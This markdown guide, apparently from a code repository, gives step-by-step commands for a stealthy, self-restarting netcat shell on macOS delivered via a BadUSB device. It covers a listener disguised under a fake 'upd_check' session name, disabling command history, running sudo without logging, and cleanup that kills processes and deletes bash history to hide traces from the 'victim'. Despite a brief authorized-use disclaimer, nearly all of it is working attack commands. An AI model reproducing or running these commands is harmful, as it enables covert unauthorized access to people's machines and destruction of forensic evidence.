 # **Mac Endless Reverse Shell**

### **This guide is for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical.**

Interactive reverse shell on MacOS systems, leveraging **`nc`** (netcat). This approach is designed for stealth and efficiency, avoiding reliance on Python or any other non-standard tools on the target machine. Follow these steps carefully to maintain control over the target system discreetly.

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

Not used in the BadUSB script but good to have.

- **Initial Command:** This sets up a continuous loop that listens for incoming connections on port 9123, handling signals to clean up and exit gracefully if needed.

`screen -dmS upd_check bash -ic "unset HISTFILE; set +o history; trap 'rm -f /tmp/f; screen -S background_process -X quit; kill -SIGINT $$' EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f; [ -f /tmp/terminate ] && break || true; sleep 1; done"` 

The BadUSB Payload:

- **Enhanced Command:** Improves upon the initial setup by attempting to re-establish the reverse shell every 5 minutes, ensuring connectivity even if the session is disrupted.

`screen -dmS upd_check bash -ic 'unset HISTFILE; set +o history; trap "rm -f /tmp/f; screen -S background_process -X quit; killall nc 2>/dev/null; kill -SIGINT $$" EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f & sleep 300; pkill -f "nc -l 9123" 2>/dev/null && ps aux | awk "/bash -i/ && !/awk/ {print \$2}" | xargs kill -9; if [ -f /tmp/terminate ]; then break; fi; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash`
    `unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** After Switching to root execute this for not logging the commands.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that are related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

When using the **`script`** command to enhance the shell environment, there's a risk of leaving the reverse shell process in a suspended state if the session exits unexpectedly. This can occur because the **`script`** command initiates a new shell session for logging purposes, and if this session is not properly terminated (for instance, due to a network disconnection or closing the terminal without exiting the **`script`** session), the underlying process may continue to run without the ability to reconnect. To mitigate this risk and ensure the ability to reconnect, it's crucial to exit the **`script`** session using the **`exit`** command before ending your reverse shell session. This ensures that all processes are terminated properly and the shell is left in a state that allows for future connections.

For the clarification on the **`screen`** command and how the enhanced command improves reliability:

### **Clarification on `screen` Command:**

The enhanced **`screen`** command offers a significant improvement over the initial setup by incorporating a mechanism to automatically attempt re-establishment of the reverse shell connection every 5 minutes. This approach is particularly useful in scenarios where the reverse shell might be disrupted due to network instability or if the initial connection is accidentally closed. By using a loop that periodically kills the existing **`nc`** (netcat) listener and starts a new one, the command ensures that the attacker can regain access to the target machine without needing to re-deploy the payload. This auto-reconnect feature makes the reverse shell more resilient to disconnections and enhances its persistence on the target machine, ensuring that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure is designed for operational discretion and effectiveness. Ensure you have authorized access to the system before attempting this setup.***
